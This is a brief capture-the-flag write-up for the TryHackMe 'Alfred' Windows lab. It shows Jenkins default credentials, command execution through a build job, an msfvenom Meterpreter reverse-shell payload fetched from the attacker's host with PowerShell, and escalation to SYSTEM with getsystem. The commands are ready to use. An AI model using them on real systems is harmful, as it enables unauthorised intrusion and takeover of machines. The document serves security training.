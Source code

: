# THM: Alfred
# OS: Windows

### Foothold

[WEB]
**Port 8080**
- Weak creds are in use:
  admin:admin
- Found RCE
  1. Navigate -> http://$ip:8080/view/all/job/project
  2. Change the command run on build from `Configure`
  3. Build project

### PrivEsc

**Get meterpreter shell**
1. Start msfconsole:
  `sudo msfconsole`
2. Use multi/handler:
  `use exploit/multi/handler`
3. Change the payload type and options than run
  `set payload windows/x64/meterpreter/reverse_tcp`
  ...
  `run`
4. Create a payload:
  `msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 shikata_ga_nai LHOST=tun0 LPORT=[PORT] -f exe -o shell.exe`
5. Transfer the payload:
  `powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"`
6. Run the payload:
  `.\shell.exe`
7. You will get a meterpreter shell

[ENUM]
1. `whoami /priv`
  We have `SeImpersonate` privilege, we can try to get system with meterpreter's `getsystem`
  
[EXPLOIT]
2. `getsystem`
